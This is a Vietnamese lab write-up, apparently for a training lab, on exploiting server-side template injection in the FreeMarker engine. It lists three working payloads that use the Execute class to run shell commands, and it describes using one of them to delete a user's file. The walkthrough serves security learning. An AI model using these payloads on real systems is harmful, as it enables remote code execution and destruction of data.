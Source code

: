 ## Server-side template injection using documentation

Người dùng có quyền sửa template

![image-20220718082226171](C:/Users/tuandv/AppData/Roaming/Typora/typora-user-images/image-20220718082226171.png)

Cú pháp ${someExpression} sẽ render template và trả lại kết quả

![image](https://user-images.githubusercontent.com/68894302/179433529-7eaf0dc5-bcb5-4e51-abce-202efc69f10a.png)

Việc đầu tiên là tìm xem ứng dụng đang sử dụng template engine nào

![image](https://user-images.githubusercontent.com/68894302/179434037-681ed16b-01f5-44d5-a051-e3ef28e74625.png)

Xác định template Freemaker đang được sử dụng. 

Payload sử dụng để lấy RCE Freemaker

``` 
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}
${"freemarker.template.utility.Execute"?new()("id")}
```

+ __#assign__ cho phép định nghĩa biến trong template [freemaker](http://freemarker.org/docs/dgui_misc_var.html). Đoạn này khai báo biến __ex__ và sử dụng Built-in `"freemarker.template.utility.Execute"?new()` cho phép tạo object tùy ý chính là object của "Excute" Class được implement từ "TemplateModel".

+ Sử dụng 1 trong các payload trên để xóa file /morale.txt trong thư mục home của người dùng carlos

  ![image](https://user-images.githubusercontent.com/68894302/179434408-612d69e2-1a75-4423-871d-ce765685677b.png)

![image](https://user-images.githubusercontent.com/68894302/179434449-6cada302-91c1-4ce7-87ee-3ec6a23daaab.png)